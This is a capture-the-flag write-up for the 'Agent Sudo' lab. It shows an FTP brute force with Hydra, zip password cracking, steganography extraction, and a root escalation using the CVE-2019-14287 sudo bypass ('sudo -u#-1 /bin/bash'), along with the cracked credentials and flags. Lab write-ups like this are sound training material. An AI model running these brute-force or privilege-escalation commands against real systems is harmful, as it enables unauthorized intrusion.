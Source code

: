 
# Agent Sudo — Writeup

## Reconnaissance

### Nmap Scan  
We started with an `nmap` scan and discovered the following open ports:

| Port | Service |
|-------|---------|
| 21    | FTP     |
| 22    | SSH     |
| 80    | HTTP    |

---

## Web Enumeration

- We explored the web server (port 80) and used **Burp Suite** to modify the `User-Agent` header.
- After trying different agents, **Agent C** revealed the username:  
  ```
  Agent C's name is: chris
  ```

---

## FTP Brute-force

- We performed an FTP brute-force attack using **Hydra**:
  ```bash
  hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.130.39
  ```
- Found credentials:
  ```
  chris:crystal
  ```

---

## FTP Loot

Logged into FTP and found:
```
To_agentJ.txt  
cute-alien.jpg  
cutie.png
```
We downloaded all the files for analysis.

---

## File Analysis

### To_agentJ.txt  
- The note mentioned that a password was hidden in one of the images.

### cutie.png  
- Ran `binwalk`:
  ```bash
  binwalk cutie.png
  ```
- Found embedded files:
  ```
  365
  365.zlib
  8702.zip
  To_agentR.txt
  ```

### Crack 8702.zip  
- Extracted hash for **John the Ripper**:
  ```bash
  zip2john 8702.zip > new.txt
  john new.txt
  ```
- Password found:
  ```
  alien
  ```

- Extracted zip:
  ```bash
  7z e 8702.zip
  ```
- Found:
  ```
  To_agentR.txt
  ```
- The note revealed a steghide passphrase:
  ```
  steg password: Area51
  ```

---

## Steganography

- Extracted data from `cute-alien.jpg`:
  ```bash
  steghide extract -sf cute-alien.jpg
  ```
- Found `message.txt`:
  ```
  The message is to James.
  His login password is: hackerrules!
  ```

---

## SSH Access

- Logged in via SSH:
  ```bash
  ssh james@10.10.130.39
  ```
- Found `user.txt`:
  ```
  b03d975e8c92a7c04146cfa7a5a313c7
  ```

- Noticed `Alien_autospy.jpg`, searched online and found:
  ```
  Roswell
  ```

---

## Privilege Escalation

- Checked `sudo -l`:
  ```
  (ALL, !root) /bin/bash
  ```

- Identified vulnerability: **CVE-2019-14287**

- Exploited with:
  ```bash
  sudo -u#-1 /bin/bash
  ```
- Got root shell.

- Found `root.txt`:
  ```
  b53a02f55b57d4439e3341834d70c062
  ```

- Agent R’s name:
  ```
  DesKel
  ```

---

## Summary of Flags

| Flag Type | Hash |
|------------|----------------------------------|
| User Flag  | `b03d975e8c92a7c04146cfa7a5a313c7` |
| Root Flag  | `b53a02f55b57d4439e3341834d70c062` |
